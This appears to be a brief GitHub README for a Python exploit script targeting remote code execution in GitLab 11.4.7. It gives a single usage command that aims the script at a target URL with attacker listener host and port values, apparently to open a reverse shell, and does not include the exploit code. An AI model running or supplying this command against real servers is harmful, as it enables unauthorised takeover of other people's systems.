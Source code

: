 ## gitlab11.4.7rce
Custom code written in python to exploit Gitlab 11.4.7 vulnerability

usage: python3 ready.py --url http://example.com:5080 --lhost $LHOST --lport $LPORT
